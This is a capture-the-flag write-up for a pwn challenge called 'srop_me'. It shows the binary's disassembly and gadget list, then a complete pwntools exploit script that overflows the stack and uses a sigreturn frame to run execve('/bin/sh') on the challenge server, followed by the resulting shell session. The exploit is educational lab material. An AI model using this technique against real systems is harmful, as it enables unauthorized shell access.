 ```yaml
---
title: ASM
date: 2023-06-10
type: writeup
author: sunbather
tags:
  - pwn
  - srop
---
```


## Description of the challenge

What can I say except, "You're welcome" :) 

Author: NoobHacker

## Solution

The binary name is``srop_me``, so we can assume this is an srop challenge. The binary is so small we can just objdump it. Seems like the source code was written in assembly.

```asm
srop_me:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <vuln>:
  401000:	b8 01 00 00 00       	mov    eax,0x1
  401005:	bf 01 00 00 00       	mov    edi,0x1
  40100a:	48 be 00 20 40 00 00 	movabs rsi,0x402000
  401011:	00 00 00 
  401014:	ba 0f 00 00 00       	mov    edx,0xf
  401019:	0f 05                	syscall 
  40101b:	48 83 ec 20          	sub    rsp,0x20
  40101f:	b8 00 00 00 00       	mov    eax,0x0
  401024:	bf 00 00 00 00       	mov    edi,0x0
  401029:	48 89 e6             	mov    rsi,rsp
  40102c:	ba 00 02 00 00       	mov    edx,0x200
  401031:	0f 05                	syscall 
  401033:	48 83 c4 20          	add    rsp,0x20
  401037:	c3                   	ret    

0000000000401038 <_start>:
  401038:	e8 c3 ff ff ff       	call   401000 <vuln>
  40103d:	b8 3c 00 00 00       	mov    eax,0x3c
  401042:	bf 00 00 00 00       	mov    edi,0x0
  401047:	0f 05                	syscall 
  401049:	c3                   	ret    

Disassembly of section .rodata:

0000000000402000 <msg>:
  402000:	48                   	rex.W
  402001:	65 6c                	gs ins BYTE PTR es:[rdi],dx
  402003:	6c                   	ins    BYTE PTR es:[rdi],dx
  402004:	6f                   	outs   dx,DWORD PTR ds:[rsi]
  402005:	2c 20                	sub    al,0x20
  402007:	77 6f                	ja     402078 <binsh+0x69>
  402009:	72 6c                	jb     402077 <binsh+0x68>
  40200b:	64 21 21             	and    DWORD PTR fs:[rcx],esp
  40200e:	0a                 	or     ch,BYTE PTR [rdi]

000000000040200f <binsh>:
  40200f:	2f                   	(bad)  
  402010:	62                   	(bad)  
  402011:	69                   	.byte 0x69
  402012:	6e                   	outs   dx,BYTE PTR ds:[rsi]
  402013:	2f                   	(bad)  
  402014:	73 68                	jae    40207e <binsh+0x6f>
```
You can notice the program does a write to stdout with the first syscall in ``<vuln>`` (writes the bytes found at ``0x402000`` ``<msg>``) and then reads 0x200 bytes with the second syscall in ``<vuln>``. It is obvious this is a buffer overflow, so we have control of RIP. The problem here is that we can neither ret2libc (we lack any library to jump to) and we can't ROP chain either, because the binary is super small. We can use the hint and SROP the binary. The idea is to craft a sigreturn frame on the stack and then call the ``sys_rt_sigreturn`` syscall to call ``execve`` with ``/bin/sh`` as arguments. We look at the ROP gadgets found:
```
0x000000000040102e : add al, byte ptr [rax] ; add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret
0x0000000000401028 : add byte ptr [rax - 0x77], cl ; out 0xba, al ; add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401010 : add byte ptr [rax], al ; add byte ptr [rax], al ; mov edx, 0xf ; syscall
0x0000000000401043 : add byte ptr [rax], al ; add byte ptr [rax], al ; syscall
0x000000000040103f : add byte ptr [rax], al ; add byte ptr [rdi], bh ; syscall
0x0000000000401011 : add byte ptr [rax], al ; add byte ptr [rdx + 0xf], bh ; syscall
0x0000000000401040 : add byte ptr [rax], al ; mov edi, 0 ; syscall
0x0000000000401012 : add byte ptr [rax], al ; mov edx, 0xf ; syscall
0x0000000000401017 : add byte ptr [rax], al ; syscall
0x0000000000401041 : add byte ptr [rdi], bh ; syscall
0x0000000000401030 : add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret
0x0000000000401013 : add byte ptr [rdx + 0xf], bh ; syscall
0x000000000040102d : add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401032 : add eax, 0x20c48348 ; ret
0x0000000000401034 : add esp, 0x20 ; ret
0x0000000000401033 : add rsp, 0x20 ; ret
0x000000000040103e : cmp al, 0 ; add byte ptr [rax], al ; mov edi, 0 ; syscall
0x0000000000401042 : mov edi, 0 ; syscall
0x000000000040102c : mov edx, 0x200 ; syscall
0x0000000000401014 : mov edx, 0xf ; syscall
0x000000000040102a : mov esi, esp ; mov edx, 0x200 ; syscall
0x0000000000401029 : mov rsi, rsp ; mov edx, 0x200 ; syscall
0x000000000040102b : out 0xba, al ; add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401037 : ret
0x0000000000401019 : syscall
```
We have the syscall gadget, but no way of really controlling RAX, to be able to call ``sys_rt_sigreturn``. However, we can use the previous syscall to control RAX. The return code of a syscall is written to RAX. For example, the read call will change RAX to however many bytes we've read. So we could use the read to setup the sigreturn frame on the stack and then return back to the read syscall, to read some more. Then we read exactly 15 bytes, to prepare ``RAX=0xf`` for ``sys_rt_sigreturn``. Then we return to syscall and execute the frame prepared:
```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./srop_me")
target = remote("challs.n00bzunit3d.xyz", 38894)

sh_addr = 0x000000000040200f
syscall_gadget = 0x0000000000401019
read_gadget = p64(0x40101b)

frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

payload = b"a" * 32 + read_gadget + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)
target.sendline(b"a" * 0xe) # read 0xe bytes because it also reads the newline
target.interactive()
```

Run the exploit:
```
[+] Starting local process './srop_me': pid 32381
[*] Switching to interactive mode
Hello, world!!
$ whoami
sunbather
```

Shells achieved.
